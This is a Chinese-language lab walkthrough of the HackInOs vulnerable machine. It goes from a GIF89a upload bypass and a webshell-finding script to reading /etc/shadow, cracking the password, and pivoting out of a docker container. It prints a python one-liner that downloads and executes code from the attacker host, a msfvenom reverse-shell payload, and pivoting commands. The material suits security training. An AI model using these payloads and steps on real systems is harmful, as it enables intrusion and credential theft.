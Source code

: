 # HackInOs(有内网)

## 信息收集

靶机IP 192.168.99.100
kali IP 192.168.99.101

nmap扫描结果

![Alt text](./1576559471820.png)


存在上传点但是无法上传文件

![Alt text](./1576559561592.png)

Burp抓包发现页面源代码有注释
https://github.com/fatihhcelik/Vulnerable-Machine---Hint/blob/master/upload.php

看到提示

看到其只使用了`getimagesize`函数进行检验
通过加添GIF89a可以绕过上传

而文件的名字是这么产生的
![Alt text](./1576560249639.png)

于是上传一个一句话木马，然后对目录进行爆破即可

```
# coding:utf-8
import hashlib
import requests

base_url = "http://192.168.99.100:8000/uploads/"
target = []
for i in range(101):
    shell = 'shell.php' + str(i) 
    shell_md5 = hashlib.md5(shell.encode('utf-8')).hexdigest()
    target.append(base_url + shell_md5 + '.php')

for t in target:
    r = requests.get(t)
    if r.status_code == 200:
        print("find it!")
        print(t)
        break
```


之后使用蚁剑成功连接
![Alt text](./1576560324056.png)

但是发现上传不久之后shell就被删掉了

所以需要将shell移动到html目录下，(考验手速的时候到了)


![Alt text](./1576560733771.png)
此时成功得到shell，开始提权


## 提权


查找SUID的程序

`find / -user root -perm -4000 -print 2>/dev/null`


![Alt text](./1576561228491.png)

使用tail命令查看`/etc/shadow`

将root用户复制过来，使用john进行爆破


![Alt text](./1576561315061.png)

得到root账号的密码是john

![Alt text](./1576561335215.png)






之后切换到root用户查看flag，但是并没有结束

运行提权辅助脚本

![Alt text](./1576561435933.png)


注意到提权辅助脚本提示有docker
![Alt text](./1576561476445.png)

查看IP
![Alt text](./1576561501817.png)

看这个IP地址很像是docker中的地址


尝试直接用root账户及其密码john进行连接，失败

大概猜到了我只是拿到了一台docker容器的权限，并没有进入到主机


## 后渗透

反弹的shell功能还是弱了，想办法得到一个`meterpreter`

这里有记录一下通过shell拿到`meterpreter`的几种办法

### web_delivery脚本
使用`exploit/multi/script/web_delivery` 

设置好相关参数

![Alt text](./1576562272920.png)

在反弹的shell中运行这段payload

```
python -c "import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.99.101:8080/1PrsFQbkzsmuk5');exec(r.read());"
```

得到`meterpreter`之后输入`background`让其挂起

### 使用msfenvom生成木马

使用`exploit/multi/handler` 这个exploit模块

加载`linux/x86/meterpreter_reverse_tcp` 这个payload，同时通过`msfvenom` 去生成一个木马

![Alt text](./1577094332538.png)
`msfvenom`生成木马

`msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.99.102 lport=4444 -f elf -o shell`

![Alt text](./1577094345676.png)

蚁剑上传
![Alt text](./1577094459850.png)
执行

![Alt text](./1577094504865.png)

反弹得到`meterpreter`

![Alt text](./1577094525517.png)


得到子网信息
![Alt text](./1577094592386.png)



之后通过metasploit之后添加一条路由
![Alt text](./1576562463870.png)

此时就可以看到添加的路由信息了

![Alt text](./1576581218733.png)

路由添加也可以通过：`rout add 172.18.0.0 255.255.0.0 1`

指定了网段和子网掩码，以及对应的session
![Alt text](./1577094657843.png)

这之后我们就可以在`metasploit`中访问内网的地址了，先进行主机发现


![Alt text](./1576562503028.png)

发现了四台主机

进行后续的端口扫描
![Alt text](./1576562587710.png)
(由于扫描速度比较慢，参数调整了一下)

![Alt text](./1576581339308.png)

这里也尝试通过`proxychain`去进行扫描

### proxychain的配置
![Alt text](./1577095583741.png)

使用socks4a代理，修改`/etc/proxychains.conf`文件，

![Alt text](./1577095622289.png)
 取消注释同时在最后一行加上`127.0.0.1 1080`
由于`proxyresolv`的位置有点问题，cp过来

 `cp /usr/lib/proxychains3/proxyresolv /usr/bin/`

之后可以通过`proxychains nmap -A -T4 172.18.0.2`启动nmap扫描，但是扫描的结果有问题

```
root@kali:~# proxyresolv 172.18.0.3
|S-chain|-<>-127.0.0.1:1080-<><>-4.2.2.2:53-<><>-OK
172.18.0.3
```
能够正常解析但是还是存在问题


172.18.0.2 开放了3306端口数据库，进行连接

![Alt text](./1576563049227.png)

此处也可以通过`portfwd add -l 8123 -r 172.18.0.3 -p 3306`端口转发到本地进行连接

`mysql -h 127.0.0.1  -P 8123 -uwordpress -pwordpress`
![Alt text](./1577094918289.png)


查看数据
![Alt text](./1576563178481.png)

![Alt text](./1576563190812.png)

解密之后得到123456
![Alt text](./1576563163280.png)


于是尝试直接使用该用户登陆主机

该用户在docker组中，可以尝试通过docker提权

![Alt text](./1576581408046.png)

运行的docker镜像
![Alt text](./1576581491492.png)

docker挂载即可
![Alt text](./1577096085570.png)

得到flag
![Alt text](./1576581453268.png)


另外一种方式提权

`find / -user root -perm -4000 -print 2>/dev/null`

查找SUID用户运行的程序
![Alt text](./1576581556847.png)


发现a.out

![Alt text](./1576581569529.png)
猜测其运行的是whoai命令

通过环境变量提权
![Alt text](./1576581656579.png)

同样拿到flag
![Alt text](./1576581679658.png)

